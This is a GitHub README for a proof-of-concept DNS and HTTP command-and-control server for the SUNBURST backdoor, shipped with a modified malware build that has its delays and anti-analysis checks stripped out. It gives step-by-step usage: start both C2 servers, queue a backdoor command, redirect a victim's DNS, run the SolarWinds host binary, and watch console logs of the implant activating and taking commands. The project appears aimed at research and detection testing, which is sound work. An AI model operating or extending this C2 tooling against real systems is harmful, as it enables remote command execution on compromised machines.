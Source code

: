 <!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Thanks again! Now go create something AMAZING! :D
***
***
***
*** To avoid retyping too much info. Do a search and replace for the following:
*** CreatePhotonW, SunburstC2Server, @CreatePhotonW, email, SunburstC2Server, PoC Sunburst DNS and HTTP C2 server
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
<!--
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]
-->


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/CreatePhotonW/SunburstC2Server">
<!--    <img src="images/logo.png" alt="Logo" width="80" height="80"> -->
  </a>

  <h3 align="center">SunburstC2Server</h3>

  <p align="center">
    PoC Sunburst DNS and HTTP C2 server
    <br />
<!--    <a href="https://github.com/CreatePhotonW/SunburstC2Server"><strong>Explore the docs »</strong></a> -->
    <br />
    <br />
    <!--
    <a href="https://github.com/CreatePhotonW/SunburstC2Server">View Demo</a>
    ·
    -->
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Report Bug</a>
    ·
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Request Feature</a>
  </p>
</p>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

<!--
[![Product Name Screen Shot][product-screenshot]](https://example.com)
-->

SunburstC2Server is a proof of concept DNS and HTTP C2 servers for the SUNBURST malware based public technical writeups and sample reversing. With this, it is possible to utilize SUNBURST to run backdoor commands.

Also included is a version of SUNBURST that is convenient for testing this C2 implementation. Delays are drastically shortened and anti-analysis checks are not performed.
This C2 server would work with the unmodified sample, but waiting days to execute calc is no fun :)

<!-- 
### Built With

* []()
* []()
* []()

-->



<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites

* python3

* python packages

    ```
    sudo pip install -r requirements_dns.txt
    sudo pip install -r requirements_http.txt
    ```

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/CreatePhotonW/SunburstC2Server.git
   ```

<!-- USAGE EXAMPLES -->
## Usage

1. On a server (local or remote) run:
```
python3 sunburst_httpc2.py
```
2. In the HTTP C2 shell, type `auto_execute 5 calc` and hit enter
3. On a server (local or remote) run (replace `127.0.0.1` with the IP address of the HTTP C2 server):
```
python3 sunburst_dnsc2.py --httpc2ip 127.0.0.1
```
4. In the DNS C2 shell, type `auto_activate` and hit enter
5. Change your Windows victim's DNS server to point to the IP address of the DNS C2 server
6. Build the Visual Studio solution
7. Run SolarWinds.BusinessLayerHost.exe
8. Wait 30-60 seconds
9. SolarWinds.BusinessLayerHost.exe will reach out to the DNS C2 server and progress through the Activation phase
```
                    ___                          __        ___                    ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_   __| _/ ____   ______ ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\ / __ | /    \ /  ___// ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  / /_/ ||   |  \\___ \\  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  \____ ||___|  /____  \\___  /_______ \
     \/           \/     \/                  \/            \/     \/     \/     \/        \/
    
Welcome to the Sunburst DNS C2 Coordinator.
Type help or ? to list commands.

(sunburst) auto_activate
	Sunbeams will begin activation when they first connect
(sunburst) (01:08:27) [*] New sunbeam found: b'4f4774e0740a7e72'
(01:08:27) [*] sunbeam preactivated (activation step 1/2): b'4f4774e0740a7e72'
(01:08:37) [*] sunbeam activated (activation step 2/2): b'4f4774e0740a7e72'
```
10. SolarWinds.BusinessLayerHost.exe will reach out to the HTTP C2 server and fetch its first backdoor command.
```
                    ___                          __    /\      __    __                ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_ |  |__ _/  |__/  |_______   ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\|  |  \\   __\   __\____ \_/ ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  |      \|  |  |  | |  |_\ \  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  |___|  /|__|  |__| |   ___/\___  /_______ \
     \/           \/     \/                  \/            \/            |__|        \/        \/
    
Welcome to the Sunburst HTTP C2 Server.
Type help or ? to list commands.

(sunburst) auto_execute 5 calc
	Sunbeam will process the next auto execute job in the queue on its next HTTP response
(sunburst) (01:08:39) [*] New sunbeam found: b'4f4774e0740a7e72'
```
11. SolarWinds.BusinessLayerHost.exe will run a RunTask job (id=5) to spawn calc


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/CreatePhotonW/SunburstC2Server/issues) for a list of proposed features (and known issues).



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

CreatePhotonW - [@CreatePhotonW](https://twitter.com/CreatePhotonW)

Project Link: [https://github.com/CreatePhotonW/SunburstC2Server](https://github.com/CreatePhotonW/SunburstC2Server)



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/CreatePhotonW/repo.svg?style=for-the-badge
[contributors-url]: https://github.com/CreatePhotonW/repo/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/CreatePhotonW/repo.svg?style=for-the-badge
[forks-url]: https://github.com/CreatePhotonW/repo/network/members
[stars-shield]: https://img.shields.io/github/stars/CreatePhotonW/repo.svg?style=for-the-badge
[stars-url]: https://github.com/CreatePhotonW/repo/stargazers
[issues-shield]: https://img.shields.io/github/issues/CreatePhotonW/repo.svg?style=for-the-badge
[issues-url]: https://github.com/CreatePhotonW/repo/issues
[license-shield]: https://img.shields.io/github/license/CreatePhotonW/repo.svg?style=for-the-badge
[license-url]: https://github.com/CreatePhotonW/repo/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/CreatePhotonW
